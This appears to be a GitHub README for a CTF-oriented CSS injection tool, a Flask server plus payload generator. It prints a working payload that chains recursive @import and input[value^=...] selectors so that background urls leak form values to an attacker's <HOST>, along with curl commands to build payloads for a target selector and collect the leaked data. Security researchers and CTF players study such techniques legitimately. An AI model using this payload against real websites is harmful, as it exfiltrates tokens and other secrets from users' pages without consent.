 # ONdemand csS injEctioN tool  
The service tool for CSS injection with recursive import. It will be useful for CTF.

This tool provides the following CSS injection payload, and server to listen for leaked data.

```css
@import "http://<HOST>/<key>/<index>/stage2.css";

input[value^="xa"]:first-child {
    background: url("http://<HOST>/<key>/leak/xa");
}
input[value^="xb"]:first-child {
    background: url("http://<HOST>/<key>/leak/xb");
}
input[value^="xc"]:first-child {
    background: url("http://<HOST>/<key>/leak/xc");
}
...
```

CSS has a load priority and will not work as expected if you use import recursive normally. I solved it with the pseudo-class "first-child" chain.  
Reference: https://developer.mozilla.org/docs/Web/CSS/Specificity  
Slide: [A New Era of CSS Injection](http://ja.avtokyo.org/MediaArchives#2019)


## Dependency  
- Python 3.x
- Flask 1.0.3

## Usage  
### Deploy
```
$ pip install -r requirements.txt
```

### Startup service  
```
$ python3 onsen.py
```

When the service starts, `api_secret` is output on the console.

### Make payload  
```
$ curl -d 'c=<USAGE CHARS|default:A-Za-z0-9>&s=<TARGET CSS SELECTOR|default:input[value^="{leaked}"]>&key=<KEY|default:urandom(16).hex()>' http://<HOST>/<api_secret>/set
```

`{leaked}` is replaced by the characters set by `c` param.

#### e.g.)  
```
$ curl -d 's=input[value^="{leaked}"]#secret' http://<HOST>/<api_secret>/set
```

#### Output  
```
{
    "key": "<key>",
    "payload": "<style>@import'http://<HOST>/<key>/stage1.css'</style>"
}
```

Set the payload to the target page.

### Check leaked  
```
$ curl http://<HOST>/<api_secret>/get/<key>
```

#### Output  
```
{
    "run": true|false,
    "leaked": "<LEAKED DATA>"
}
```

### Demo  
[![Demo](https://img.youtube.com/vi/06gHFGbhTGY/0.jpg)](https://www.youtube.com/watch?v=06gHFGbhTGY)


## Debug  
```
$ FLASK_DEBUG=1 python3 onsen.py
```

*Warning: If you enable debug, you can access the page that the XSS vulnerability exists.*

## More information  
[onsen.py](onsen.py)

## Disclaimer  
Don't use on real world websites.
